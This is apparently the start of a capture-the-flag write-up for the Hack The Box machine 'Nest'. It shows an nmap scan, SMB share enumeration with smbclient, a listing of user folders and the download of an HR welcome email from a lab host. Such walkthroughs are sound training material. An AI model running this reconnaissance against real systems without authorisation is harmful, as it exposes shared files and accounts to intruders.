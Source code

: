 ----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n nest.htb
    PORT    STATE SERVICE       VERSION
    445/tcp open  microsoft-ds?
    4386/tcp open  unknown

    Host script results:
    |_clock-skew: -59m50s
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2020-01-27T06:54:14
    |_  start_date: 2020-01-26T15:09:37

2. Enumerate the smb share.
    root@nidus:~# smbclient -L 10.10.10.178
    Enter WORKGROUP\root's password:

    	Sharename       Type      Comment
    	---------       ----      -------
    	ADMIN$          Disk      Remote Admin
    	C$              Disk      Default share
    	Data            Disk
    	IPC$            IPC       Remote IPC
    	Secure$         Disk
    	Users           Disk

    root@nidus:~# smbclient \\\\nest.htb\\Users
      smb: \> ls
        .                                   D        0  Sun Jan 26 00:04:21 2020
        ..                                  D        0  Sun Jan 26 00:04:21 2020
        Administrator                       D        0  Fri Aug  9 17:08:23 2019
        C.Smith                             D        0  Sun Jan 26 08:21:44 2020
        L.Frost                             D        0  Thu Aug  8 19:03:01 2019
        R.Thompson                          D        0  Thu Aug  8 19:02:50 2019
        TempUser                            D        0  Thu Aug  8 00:55:56 2019



    smb: \Shared\Templates\HR\> get "Welcome Email.txt"
      getting file \Shared\Templates\HR\Welcome Email.txt of size 425 as Welcome Email.txt (3.5 KiloBytes/sec) (average 2.0 KiloBytes/sec)
